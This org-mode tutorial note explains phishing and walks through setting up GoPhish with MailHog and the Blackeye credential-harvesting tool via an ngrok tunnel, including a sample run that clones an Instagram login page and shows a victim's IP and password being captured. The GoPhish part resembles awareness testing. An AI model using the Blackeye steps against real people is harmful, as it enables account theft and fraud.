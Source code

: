 #+title:Phishing
#+OPTIONS: \n:t
#+roam_tags: Social_Engineering
#+attr_html: :width 100px

[WARNING: WRITER ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY USING TOOLS MENTIONED IN THIS REPO. IT IS ILLEGAL TO USE THIS TOOLS WITHOUT MUTUAL CONSENT, YOU'VE BEEN WARNED!]

Phishing is a type of attack that are using E-mail, voice (Vishing), or SMS (smishing) to attack its target. This kind of attack can be pointed into an individual which is called as spear phishing. Phishing has been around since 90s targeting America Online (AOL). In these day and age, phishing is disguised in many ways, from E-mail notification of a big company sending you money, or even from a fake account that are sending you "love letter" with malware in disguise.

** How does it work?

Phishing can be done in multiple ways, while phishing itself can be run through E-mail, you might want to use other means of attack if you are targeting a specific person that might or might not use E-mail. Whatsapp, social media, can be used for Phishing campaign, it is because the educational needs in social media todays are mostly teenagers, which is a possible target for phishing.

Phishing servers are usually run on cloud services, or can be hosted local in a computer, but since Phishers are sneaky, one might use public instances to do the attack. Each fake E-mail is sent to victim(s) E-mail address in lieu of other means of attack said above. Digital Ocean or AWS might be a good place to hosts this server. While the E-mail is sent, Phishers might get notice when the link is clicked or opened, if the E-mail is read or not, if the Landing Page sent already have forms filled by victim(s) or not, and any information related to the campaign.

** Gophish

WEB: https://getgophish.com/
GIT: https://github.com/gophish/gophish

GoPhish can be used to create a campaign based Phishing environment, for this environment to work, we have to setup some boundaries first, one rule of thumb, do not use your personal mail address for this. =Mailhog= will help assigning email@localhost.localdomain to hog all the mail that sent or receive during the campaign, it is possible to use other E-mail address, but there's some issues that when sent to an E-mail address based on Google, it is possible that it will already flagged as spam or something else to help with the security.

There are multiple preparation that you can do to help with assigning things later for gophish:
- AWS, Azure, Digital Ocean, or local can be used as the base for GoPhish server.
- GoPhish might want E-mail address like Mailhog or other E-mail services that have smtp available can be used.
- Target E-mail, E-mail content, and a Landing Page, are needed for GoPhish to work.
  + GoPhish might want a Landing Page that are possible to be duplicated, as of writing, it is currently not possible to copy Facebook based web address, but your mileage may vary.
  + GoPhish also want E-mails that can use smtp, the username and password in the page needs your e-mail credentials, this is why it is not even recommended to use your personal address, use E-mail services that are not connected to you by any means.

#+begin_src shell
# GoPhish
$ mkdir -p ~/opt
$ cd ~/opt
$ curl -L https://github.com/gophish/gophish/releases/download/0.7.1/gophish-v0.7.1-linux-64bit.zip -o gophish.zip
$ unzip gophish.zip ~/opt/gophish

# MailHog
$ sudo apt-get -y install golang-go
$ go get github.com/mailhog/MailHog
#+end_src

Once you clone GoPhish and installing MailHog, you can then run it via command line by running:

#+begin_src shell
$ sudo ~/opt/gophish
$ sudo ~/go/bin/MailHog
#+end_src

Once you run it on *separate* terminal, now we need to go to https://localhost:3333 for GoPhish and https://localhost:8025 for MailHog. There are some templates you have to fill before we launch the attack, this will be discussed on the next section. Username for *GoPhish* is =admin= & =gophish=.

*** Sending Profile

[[./Assets/GoPhish_Sending_Profiles.png]]

You might want to use port =1025= for smtp, it will be already configured if you run MailHog, this will send email to that smtp address, also you can try =Send Test Email= to check if it is sending to the right address.


*** Landing Pages

FIXME [[./Assets/GoPhish_Landing_Pages.png]]
FIXME [[./Assets/GoPhish_Landing_Pages_URL.png]]

Here will be where you import the site, click on import and include URL to the page that you want to clone, also you can redirect it to the real address.

*** E-Mail Templates

[[./Assets/GoPhish_Email.png]]

You can use Templates as above, it is taken from official GoPhish documentation page, you might want to go [[https://docs.getgophish.com/user-guide/building-your-first-campaign/creating-the-template][here]]. It is also possible to include attachments using this email, since it is only for testing purpose, it will attached nothing.

[[./Assets/GoPhish_Email_URL.png]]

To include the url, you have to highlight the word here and click *link* button in the html editor, it will then brought you this window to include your URL.

*** Groups

[[./Assets/GoPhish_Groups.png]]


Since it is possible if you want to send it to multiple people, you can have it inside the groups, you can import it using CSVs.

*** Launching Campaign

After all the preparation, we can then go to *Campaign* page and create a new campaign, you can also clone or edit your campaign here.

[[./Assets/GoPhish_Campaign.png]]

Be sure to point the URL to your localhost for this, or to the server you're running if you're using instances like Digital Ocean or AWS.

*** Dashboard

You can then see your victims and overall status from the dashboard area.

[[./Assets/GoPhish_Results.png]]


*** MailHog

This will be the E-mail that you get from GoPhish.

[[./Assets/MailHog.png]]


** Blackeye

GIT: https://github.com/An0nUD4Y/blackeye

Installation:
- PHP ( Should be available in Kali Linux )
- Ngrok ( Create your account first )
- GIthub Account ( Easier )

[ WARNING ] This preparation are needed if =blackeye.sh= not working as intended, as precaution, we have to manually run the ngrok server and serve the php to our http://localhost:8080 ( or another port ) to get it to works. Go to next section to actually run =blackeye=.

Here is the command you need to install and setup ngrok manually, though you will proabably be downloading this again in =blackeye=, so you might want to copy ngrok to your =blackeye= folder later. Authtoken can be seen [[https://dashboard.ngrok.com/get-started/your-authtoken][here]].

#+begin_src shell
$ git clone https://github.com/An0nUD4Y/blackeye
$ cd blackeye
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
$ unzip ngrok-stable-linux-amd64.zip
$ ./ngrok authtoken 0000000000000000000000000000000000000000000000000
#+end_src

If you run ngrok server by itself, it will be seen like this:

#+begin_src shell
ngrok by @inconshreveable

Session Status                online
Account                       account-name (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://alphanumeric.ngrok.io -> http://localhost:8080
Forwarding                    https://alphanumeric.ngrok.io -> http://localhost:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              22      0       0.25    0.07    0.06    3.14
#+end_src

As of when this articles made, you can access http://127.0.0.1:4040/status to check ngrok status and below =command_line= section, you will see your URL that can be used.

#+begin_src shell
$ sudo ./blackeye.sh # Password Needed

[sudo] password for archaict:

     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay
          [02] Facebook       [18] Adobe ID       [34] Amazon
          [03] Snapchat       [19] Shopify        [35] iCloud
          [04] Twitter        [20] Messenger      [36] Spotify
          [05] Github         [21] GitLab         [37] Netflix
          [06] Google         [22] Twitch         [38] Custom
          [07] Origin         [23] MySpace
          [08] Yahoo          [24] Badoo
          [09] Linkedin       [25] VK
          [10] Protonmail     [26] Yandex
          [11] Wordpress      [27] devianART
          [12] Microsoft      [28] Wi-Fi
          [13] IGFollowers    [29] PayPal
          [14] Pinterest      [30] Steam
          [15] Apple ID       [31] Bitcoin
          [16] Verizon        [32] Playstation

[*] Choose an option: 1 # choose your poison

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: # check http://localhost:4040
[*] Waiting victim open the link ...

[*] IP Found!
[*] Victim IP: 127.0.0.1 # It will be your public IP here (SECRET)
[*] User-Agent:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/XX.0
[*] Saved: instagram/saved.ip.txt

[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: helloWorld
[*] Password:  12345678
[*] Saved: sites/instagram/saved.usernames.txt
#+end_src

If your php is not connected, you can do this instead before running =blackeye=.

#+begin_src shell
$ php -d /path/to/blackeye/sites/instagram -S localhost:8080
#+end_src
